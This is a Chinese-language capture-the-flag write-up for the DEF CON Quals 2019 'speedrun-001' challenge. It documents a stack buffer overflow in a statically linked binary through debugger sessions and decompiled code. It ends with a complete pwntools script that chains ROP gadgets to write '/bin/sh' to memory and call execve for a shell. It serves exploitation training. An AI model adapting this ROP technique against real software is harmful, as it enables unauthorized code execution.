

# 2.A Defcon Quals 2019 Speedrun1
首先查看程序

```cpp
vuln@box:~/nightmare/modules/07-bof_static/dcquals19_speedrun1$ pwn checksec speedrun-001
[*] '/home/vuln/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

speedrun-001: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=e9266027a3231c31606a432ec4eb461073e1ffa9, stripped
```
开启了NX，说明栈内存区域不可执行，并且程序为静态链接的，没有libc可用，这意味这libc被作为二进制文件一起编译了，那么我们就有很多可以利用的gadgets，并且没有开启PIE，那么这些gadgets的地址都是可以确定的。

vmmap查看下内存中的数据

```python
gef➤  vmmap 
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/vuln/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/vuln/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
用gdb查看调用函数的地址，利用backtrace来进行追踪，这个命令能够告诉我们，以及调用的函数的地址和执行到哪里了，通过这些信息我们可以找到相关的调用函数。

```cpp
gef➤  r
Starting program: /home/vuln/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
Hello brave new challenger
Any last words?
^C
Program received signal SIGINT, Interrupt.
0x00000000004498ae in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xfffffffffffffe00
$rbx   : 0x0000000000400400  →   sub rsp, 0x8
$rcx   : 0x00000000004498ae  →  0x5a77fffff0003d48 ("H="?)
$rdx   : 0x7d0
$rsp   : 0x00007fffffffdf38  →  0x0000000000400b90  →   lea rax, [rbp-0x400]
$rbp   : 0x00007fffffffe340  →  0x00007fffffffe360  →  0x0000000000401900  →   push r15
$rsi   : 0x00007fffffffdf40  →  0x0000000000000000
$rdi   : 0x0
$rip   : 0x00000000004498ae  →  0x5a77fffff0003d48 ("H="?)
$r8    : 0xf
$r9    : 0x00000000006bd880  →  0x00000000006bd880  →  [loop detected]
$r10   : 0x200000000
$r11   : 0x246
$r12   : 0x00000000004019a0  →   push rbp
$r13   : 0x0
$r14   : 0x00000000006b9018  →  0x0000000000440ea0  →   mov rcx, rsi
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
─────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf38│+0x0000: 0x0000000000400b90  →   lea rax, [rbp-0x400]         ← $rsp
0x00007fffffffdf40│+0x0008: 0x0000000000000000   ← $rsi
0x00007fffffffdf48│+0x0010: 0x0000000000000000
0x00007fffffffdf50│+0x0018: 0x0000000000000000
0x00007fffffffdf58│+0x0020: 0x0000000000000000
0x00007fffffffdf60│+0x0028: 0x0000000000000000
0x00007fffffffdf68│+0x0030: 0x0000000000000000
0x00007fffffffdf70│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x44989f                  add    BYTE PTR [rbx+0x272f6605], cl
     0x4498a5                  add    BYTE PTR [rbp+0x311675c0], al
     0x4498ab                  ror    BYTE PTR [rdi], 0x5
 →   0x4498ae                  cmp    rax, 0xfffffffffffff000
     0x4498b4                  ja     0x449910
     0x4498b6                  repz   ret
     0x4498b8                  nop    DWORD PTR [rax+rax*1+0x0]
     0x4498c0                  push   r12
     0x4498c2                  push   rbp
───────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "speedrun-001", stopped, reason: SIGINT
─────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4498ae → cmp rax, 0xfffffffffffff000
[#1] 0x400b90 → lea rax, [rbp-0x400]
[#2] 0x400c1d → mov eax, 0x0
[#3] 0x4011a9 → mov edi, eax
[#4] 0x400a5a → hlt
──────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```
从上面的trace数据块中，我们可以看到一共有5个地址，可以进行一一分析查找正确的。不过我们可以利用经验，\[rbp-0x400\]一般是表示变量，这个有可能就是需要我们输入的值的变量地址。




而地址0x400c1d可以追踪到如下类似main函数

```cpp
__int64 sub_400BC1()
{
  sub_410590(off_6B97A0, 0LL, 2LL, 0LL);
  if ( !sub_40E790("DEBUG") )
    sub_449040(5LL);
  sub_400B4D();
  sub_400B60();
  sub_400BAE();
  return 0LL;
}
```
sub\_400B4D和sub\_400BAE就是个输出函数，重点查看sub\_400B60  

```cpp
__int64 sub_400B60()
{
  int v0; // edx
  int v1; // ecx
  int v2; // er8
  int v3; // er9
  char buf[1024]; // [rsp+0h] [rbp-400h] BYREF

  sub_410390((__int64)"Any last words?");           //输出函数
  sub_4498A0(0, buf, 0x7D0uLL);                     //输入函数，对输入值进行处理，跟入
  return sub_40F710(
           (unsigned int)"This will be the last thing that you say: %s\n",
           (unsigned int)buf,
           v0,
           v1,
           v2,
           v3,
           buf[0]);
}
```
跟入函数sub\_4498A0，接收了3个参数，buf为一个1024 字节的数组，count 为2000

```cpp
unsigned __int64 __fastcall sub_4498A0(unsigned int fd, char *buf, size_t count)
{
  unsigned __int64 result; // rax
  unsigned __int64 v5; // rax
  unsigned int v6; // er8
  unsigned __int64 v7; // [rsp+0h] [rbp-20h]

  if ( dword_6BC80C )
  {
    sub_44BE40();
    v5 = sys_read(fd, buf, count);
    if ( v5 > 0xFFFFFFFFFFFFF000LL )
    {
      __writefsdword(0xFFFFFFC0, -(int)v5);
      v5 = -1LL;
    }
    v7 = v5;
    sub_44BEA0(v6);
    result = v7;
  }
  else
  {
    result = sys_read(fd, buf, count);
    if ( result > 0xFFFFFFFFFFFFF000LL )
    {
      __writefsdword(0xFFFFFFC0, -(int)result);
      result = -1LL;
    }
  }
  return result;
}

.text:00000000004498A0 ; __unwind {
.text:00000000004498A0                 mov     eax, cs:dword_6BC80C
.text:00000000004498A6                 test    eax, eax
.text:00000000004498A8                 jnz     short loc_4498C0
.text:00000000004498AA                 xor     eax, eax
.text:00000000004498AC                 syscall                 ; LINUX - sys_read
.text:00000000004498AE                 cmp     rax, 0FFFFFFFFFFFFF000h
.text:00000000004498B4                 ja      short loc_449910
.text:00000000004498B6                 rep retn
.text:00000000004498B6 ; ---------------------------------------------------------------------------
.text:00000000004498B8                 align 20h
.text:00000000004498C0
.text:00000000004498C0 loc_4498C0:                             ; CODE XREF: sub_4498A0+8↑j
.text:00000000004498C0                 push    r12
.text:00000000004498C2                 push    rbp
.text:00000000004498C3                 mov     r12, rdx
.text:00000000004498C6                 push    rbx
.text:00000000004498C7                 mov     rbp, rsi
.text:00000000004498CA                 mov     ebx, edi
.text:00000000004498CC                 sub     rsp, 10h
.text:00000000004498D0                 call    sub_44BE40
.text:00000000004498D5                 mov     rdx, r12        ; count
.text:00000000004498D8                 mov     r8d, eax
.text:00000000004498DB                 mov     rsi, rbp        ; buf
.text:00000000004498DE                 mov     edi, ebx        ; fd
.text:00000000004498E0                 xor     eax, eax
.text:00000000004498E2                 syscall                 ; LINUX - sys_read
.text:00000000004498E4                 cmp     rax, 0FFFFFFFFFFFFF000h
.text:00000000004498EA                 ja      short loc_449924
.text:00000000004498EC
.text:00000000004498EC loc_4498EC:                             ; CODE XREF: sub_4498A0+97↓j
.text:00000000004498EC                 mov     edi, r8d
.text:00000000004498EF                 mov     [rsp+28h+var_20], rax
.text:00000000004498F4                 call    sub_44BEA0
.text:00000000004498F9                 mov     rax, [rsp+28h+var_20]
.text:00000000004498FE                 add     rsp, 10h
.text:0000000000449902                 pop     rbx
.text:0000000000449903                 pop     rbp
.text:0000000000449904                 pop     r12
.text:0000000000449906                 retn
.text:0000000000449906 ; ---------------------------------------------------------------------------
.text:0000000000449907                 align 10h
.text:0000000000449910
.text:0000000000449910 loc_449910:                             ; CODE XREF: sub_4498A0+14↑j
.text:0000000000449910                 mov     rdx, 0FFFFFFFFFFFFFFC0h
.text:0000000000449917                 neg     eax
.text:0000000000449919                 mov     fs:[rdx], eax
.text:000000000044991C                 mov     rax, 0FFFFFFFFFFFFFFFFh
.text:0000000000449923                 retn
.text:0000000000449924 ; ---------------------------------------------------------------------------
.text:0000000000449924
.text:0000000000449924 loc_449924:                             ; CODE XREF: sub_4498A0+4A↑j
.text:0000000000449924                 mov     rdx, 0FFFFFFFFFFFFFFC0h
.text:000000000044992B                 neg     eax
.text:000000000044992D                 mov     fs:[rdx], eax
.text:0000000000449930                 mov     rax, 0FFFFFFFFFFFFFFFFh
.text:0000000000449937                 jmp     short loc_4498EC
.text:0000000000449937 ; } // starts at 4498A0
.text:0000000000449937 sub_4498A0      endp
```
这个函数主要的部分就是sys\_read(fd, buf, count)，把stdin的输入保存到buf里面，但是需要保证输入的值不能大于0xFFFFFFFFFFFFF000LL，不过这里不需要考虑这个问题，在这里可以造成溢出。

所以现在我们的目标就是覆盖RIP，构造一个ROP链，进行利用。

首先我们需要在内存中找到一个地址，可以写入我们的'/bin/sh'字符，使用vmmap

```cpp
gef➤  vmmap 
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /home/vuln/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /home/vuln/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001
0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x/50w 0x6b6000
0x6b6000:   0x0 0x0 0x0 0x0
0x6b6010:   0x0 0x0 0x0 0x0
0x6b6020:   0x0 0x0 0x0 0x0
0x6b6030:   0x0 0x0 0x0 0x0
0x6b6040:   0x0 0x0 0x0 0x0
0x6b6050:   0x0 0x0 0x0 0x0
0x6b6060:   0x0 0x0 0x0 0x0
0x6b6070:   0x0 0x0 0x0 0x0
0x6b6080:   0x0 0x0 0x0 0x0
0x6b6090:   0x0 0x0 0x0 0x0
0x6b60a0:   0x0 0x0 0x0 0x0
0x6b60b0:   0x0 0x0 0x0 0x0
0x6b60c0:   0x0 0x0
```
把字符写入地址汇编：

```cpp
pop %rdi, 0x6b6000; ret;
pop %rax, '/bin/sh'; ret;   #0x0068732f6e69622f
mov ptr [%rdi], %rax; ret;
```
syscall汇编代码

```cpp
# fill arguments to syscall
pop rax, 0x3b; ret
pop rdi, 0x6b6000; ret   //0x6b6000 ptr to /bin/sh\x00
pop rsi, 0; ret
pop rdx; 0; ret
```
现在查看输入点和rip之间的距离，老方式：

```cpp
gef➤  b *0x000000000400B90
Breakpoint 1 at 0x400b90
gef➤  r
Starting program: /home/vuln/nightmare/modules/07-bof_static/dcquals19_speedrun1/speedrun-001 
Hello brave new challenger
Any last words?
1111111111

Breakpoint 1, 0x0000000000400b90 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0000000000400400  →   sub rsp, 0x8
$rcx   : 0x00000000004498ae  →  0x5a77fffff0003d48 ("H="?)
$rdx   : 0x7d0             
$rsp   : 0x00007fffffffde40  →  "1111111111"
$rbp   : 0x00007fffffffe240  →  0x00007fffffffe260  →  0x0000000000401900  →   push r15
$rsi   : 0x00007fffffffde40  →  "1111111111"
$rdi   : 0x0               
$rip   : 0x0000000000400b90  →   lea rax, [rbp-0x400]
$r8    : 0xf               
$r9    : 0x00000000006bd880  →  0x00000000006bd880  →  [loop detected]
$r10   : 0x200000000000    
$r11   : 0x246             
$r12   : 0x00000000004019a0  →   push rbp
$r13   : 0x0               
$r14   : 0x00000000006b9018  →  0x0000000000440ea0  →   mov rcx, rsi
$r15   : 0x0               
$eflags: [zero CARRY parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde40│+0x0000: "1111111111"     ← $rsp, $rsi
0x00007fffffffde48│+0x0008: 0x00000000000a3131 ("11"?)
0x00007fffffffde50│+0x0010: 0x0000000000000000
0x00007fffffffde58│+0x0018: 0x0000000000000000
0x00007fffffffde60│+0x0020: 0x0000000000000000
0x00007fffffffde68│+0x0028: 0x0000000000000000
0x00007fffffffde70│+0x0030: 0x0000000000000000
0x00007fffffffde78│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400b83                  mov    rsi, rax
     0x400b86                  mov    edi, 0x0
     0x400b8b                  call   0x4498a0
 →   0x400b90                  lea    rax, [rbp-0x400]
     0x400b97                  mov    rsi, rax
     0x400b9a                  lea    rdi, [rip+0x919b7]        # 0x492558
     0x400ba1                  mov    eax, 0x0
     0x400ba6                  call   0x40f710
     0x400bab                  nop    
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "speedrun-001", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400b90 → lea rax, [rbp-0x400]
[#1] 0x400c1d → mov eax, 0x0
[#2] 0x4011a9 → mov edi, eax
[#3] 0x400a5a → hlt 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern '1111111111'
[+] Searching '1111111111' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde40 - 0x7fffffffde4a  →   "1111111111" 
gef➤  i f
Stack level 0, frame at 0x7fffffffe250:
 rip = 0x400b90; saved rip = 0x400c1d
 called by frame at 0x7fffffffe270
 Arglist at 0x7fffffffde38, args: 
 Locals at 0x7fffffffde38, Previous frame's sp is 0x7fffffffe250
 Saved registers:
  rbp at 0x7fffffffe240, rip at 0x7fffffffe248

```
可以看到他们直接相差的字节数为1032，或者可以用IDA中基于RBP的方法，0x400+8=1032更快

```cpp
>>> 0x7fffffffe248 - 0x7fffffffde40
1032L
>>> 0x400
1024
>>> 0x400 + 8
1032

```
现在我们就需要寻找gadgets了

```cpp
0x0000000000415664 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
0x00000000004101f3 : pop rsi ; ret
0x00000000004498b5 : pop rdx ; ret
0x000000000040129c : syscall
0x0000000000435603 : mov qword ptr [rdi], rdx ; ret
```
现在需要的gadgets地址都有了，那么可以开始构造ROP

```cpp
pop %rdi, 0x6b6000; ret;
pop %rdx, '/bin/sh'; ret;   #0x0068732f6e69622f
mov ptr [%rdi], %rdx; ret;

pop rax, 0x3b; ret
pop rdi, 0x6b6000; ret   //0x6b6000 ptr to /bin/sh\x00
pop rsi, 0; ret
pop rdx; 0; ret

poprdx
0x0068732f6e69622f
poprdi
0x6b6000
movptr

poprax
0x3b
poprdi
0x6b6000
poprsi
0
poprdx
0
syscall
```
利用方式如下：

```cpp
#!/usr/bin/python
from pwn import *

poprdi = 0x0000000000400686
poprax = 0x0000000000415664
poprsi = 0x00000000004101f3
poprdx = 0x00000000004498b5
syscall = 0x000000000040129c
write = 0x0000000000435603

payload = '\x00'*1032

payload += p64(poprdx)
payload += p64(0x0068732f6e69622f)
payload += p64(poprdi)
payload += p64(0x6b6000)
payload += p64(write)

payload += p64(poprax)
payload += p64(0x3b)
payload += p64(poprdi)
payload += p64(0x6b6000)
payload += p64(poprsi)
payload += p64(0x0)
payload += p64(poprdx)
payload += p64(0x0)
payload += p64(syscall)

target = process('./speedrun-001')
target.recvuntil('Any last words?\n')
target.sendline(payload)
target.interactive()
```